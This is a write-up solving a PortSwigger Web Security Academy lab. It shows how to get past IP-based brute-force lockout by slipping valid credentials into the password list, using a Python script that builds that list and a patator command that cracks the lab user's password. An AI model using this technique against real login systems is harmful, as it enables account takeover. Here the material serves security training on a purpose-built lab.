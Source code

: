 # Lab 4: Broken brute-force protection, IP block

## Description

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Solution

The challenge has a logic flaw in its password brute-force protection mechanism that makes it vulnerable to brute-forcing passwords. Given a valid set of credentials `wiener:peter`, determine the password to the account with the username `carlos`.

Navigate to the login page and intercept a login request using BurpSuite to understand its structure.

```http
POST /login HTTP/1.1
Host: ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Cookie: session=KtD0SoPOuQ3DMMXQuZo9OITnqqE8xdZV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Dnt: 1
Referer: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

The next step is to understand the password brute-force protection mechanism that is in play by answering the following questions:

- After how many failed login attempts does the brute-force protection mechanism kick in and block the IP address?
- Does the mechanism reset an IP address's count if it logs in successfully?
- How does the application determine which IP address to block? Does it go to the actual source IP address first or does it first check the `X-Forwarded-For` HTTP header?

### How Many Failed Logins until Lockout?

Using BurpSuite interceptor, attempt 20 iterative logins and determine after which attempt the IP address was blocked. Use the first 20 passwords from the word list, just in case one is correct.

After 3 failed login attempts, the web application began returning an error indicating too many requests have been made and to try again **in one minute**.

![[Pasted image 20210807204402.png]]


### Does a Successful Login Reset the Count?

Using BurpSuite interceptor, attempt 4 iterative logins. On the 3rd login attempt, use valid credentials. If the 4th request does not indicate IP address blocking, then a successful login does reset the count.

After executing the attack, the 4th request does not indicate IP address blocking.

![[Pasted image 20210807205136.png]]

This indicates that the web application resets an IP address's number of failed login attempts whenever it logs in successfully. By interspersing the credentials `wiener:peter` every two entries in the username:password dictionary, the brute-force protection mechanism can be bypassed.

Build the dictionary.

```python
valid_credentials = "wiener:peter"
username = "carlos"
with open("passwords.txt") as passwords:
    with open("credentials.txt", "w") as credentials:
        credentials.write(valid_credentials + "\n")
        for i, password in enumerate(passwords):
            if (i + 1) % 3 == 0:
                credentials.write(valid_credentials + "\n")
            else:
                credentials.write(f"{username}:{password}")
```

Based on successfully logging in with the credentials `wiener:peter`, the indicator of a successful login is a 302 code. The indicator of a failed login is a 200 code, so ignore those. Ensure the brute-force only happens in a single thread so the counter reset can happen properly.

```bash
$ patator http_fuzz url=https://ac3f1ffb1ef3088d80a304de007f005a.web-security-academy.net/login method=POST body='username=COMBO00&password=COMBO01' 0=credentials.txt -t 1 -x ignore:code=200

21:42:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-07 21:42 CDT
21:42:26 patator    INFO -                                                                              
21:42:26 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:42:26 patator    INFO - -----------------------------------------------------------------------------
21:42:27 patator    INFO - 302  170:0          0.131 | wiener:peter                       |     1 | HTTP/1.1 302 Found
21:42:29 patator    INFO - 302  170:0          0.121 | wiener:peter                       |     4 | HTTP/1.1 302 Found
21:42:30 patator    INFO - 302  170:0          0.126 | wiener:peter                       |     7 | HTTP/1.1 302 Found
21:42:32 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    10 | HTTP/1.1 302 Found
21:42:34 patator    INFO - 302  170:0          0.119 | wiener:peter                       |    13 | HTTP/1.1 302 Found
21:42:35 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    16 | HTTP/1.1 302 Found
21:42:37 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    19 | HTTP/1.1 302 Found
21:42:39 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    22 | HTTP/1.1 302 Found
21:42:40 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    25 | HTTP/1.1 302 Found
21:42:42 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    28 | HTTP/1.1 302 Found
21:42:44 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    31 | HTTP/1.1 302 Found
21:42:45 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    34 | HTTP/1.1 302 Found
21:42:47 patator    INFO - 302  170:0          0.133 | wiener:peter                       |    37 | HTTP/1.1 302 Found
21:42:48 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    40 | HTTP/1.1 302 Found
21:42:50 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    43 | HTTP/1.1 302 Found
21:42:52 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    46 | HTTP/1.1 302 Found
21:42:53 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    49 | HTTP/1.1 302 Found
21:42:55 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    52 | HTTP/1.1 302 Found
21:42:57 patator    INFO - 302  170:0          0.122 | wiener:peter                       |    55 | HTTP/1.1 302 Found
21:42:58 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    58 | HTTP/1.1 302 Found
21:43:00 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    61 | HTTP/1.1 302 Found
21:43:01 patator    INFO - 302  170:0          0.126 | carlos:jessica                     |    62 | HTTP/1.1 302 Found
21:43:02 patator    INFO - 302  170:0          0.159 | wiener:peter                       |    64 | HTTP/1.1 302 Found
21:43:03 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    67 | HTTP/1.1 302 Found
21:43:05 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    70 | HTTP/1.1 302 Found
21:43:07 patator    INFO - 302  170:0          0.132 | wiener:peter                       |    73 | HTTP/1.1 302 Found
21:43:09 patator    INFO - 302  170:0          0.124 | wiener:peter                       |    76 | HTTP/1.1 302 Found
21:43:11 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    79 | HTTP/1.1 302 Found
21:43:12 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    82 | HTTP/1.1 302 Found
21:43:14 patator    INFO - 302  170:0          0.123 | wiener:peter                       |    85 | HTTP/1.1 302 Found
21:43:16 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    88 | HTTP/1.1 302 Found
21:43:18 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    91 | HTTP/1.1 302 Found
21:43:19 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    94 | HTTP/1.1 302 Found
21:43:21 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    97 | HTTP/1.1 302 Found
21:43:22 patator    INFO - 302  170:0          0.126 | wiener:peter                       |   100 | HTTP/1.1 302 Found
21:43:23 patator    INFO - Hits/Done/Skip/Fail/Size: 35/101/0/0/101, Avg: 1 r/s, Time: 0h 0m 57s
```

The only successful login with the username  `carlos` is the password `jessica`.
